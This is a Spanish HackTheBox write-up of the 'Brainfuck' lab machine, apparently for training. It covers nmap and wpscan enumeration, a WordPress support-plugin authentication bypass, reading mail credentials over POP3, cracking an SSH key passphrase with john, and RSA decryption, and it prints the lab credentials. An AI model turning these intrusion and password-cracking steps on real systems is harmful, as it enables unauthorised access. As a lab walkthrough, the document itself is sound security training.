










HackTheBox
Insane
Linux
WordPress
Plugin Exploit
POP3
RSA
Vigenere
Brainfuck
WordPress con plugin vulnerable a bypass auth; credenciales via POP3; clave RSA crackeable; root via criptografia RSA.
cat4clysm
Herramientas utilizadas
nmap
wpscan
searchsploit
john
telnet
Scanning
root@kali:~$
nmap -sC -sV -p 25,22,110,143,443 -n -Pn 10.10.10.17 -oN targeted
El certificado SSL revela subdominios. Agregamos al /etc/hosts:
10.10.10.17 brainfuck.htb sup3rs3cr3t.brainfuck.htb

WordPress - Plugin wp-support Vulnerable
root@kali:~$
wpscan --url https://brainfuck.htb/ -e vp,u --disable-tls-checks
Plugin wp-support-plus vulnerable a bypass de autenticacion (CVE searchsploit 41006):

orestis: kHGuERB29DNiNEPOP3 - Credenciales del foro secreto
root@kali:~$
telnet 10.10.10.17 110
user orestis
pass kHGuERB29DNiNE
list
retr 2
username: orestis
password: kIEnnfEKJ#9UmdOSSH Key - Foro cifrado (Vigenere)



Descargamos la clave RSA privada y crackeamos la frase:
root@kali:~$
/usr/share/john/ssh2john.py id_rsa > rsa.john
john --wordlist=/usr/share/wordlists/rockyou.txt rsa.john
# password: 3poulakia!
Root - Criptografia RSA
Usamos un script Python para descifrar la flag root usando los valores p, q, e encontrados:
root@kali:~$
python3 rsa_decrypt.py
# pt: 24604052029401386049980296953784287079059245867880966944246662849341507003750
# decimal -> hex -> asciiLecciones aprendidas
- Los plugins de WordPress desactualizados pueden tener bypasses de autenticacion criticos.
- Los servicios de correo POP3 pueden exponer credenciales para otros servicios del sistema.
- Con los factores primos p y q conocidos, el cifrado RSA puede revertirse completamente.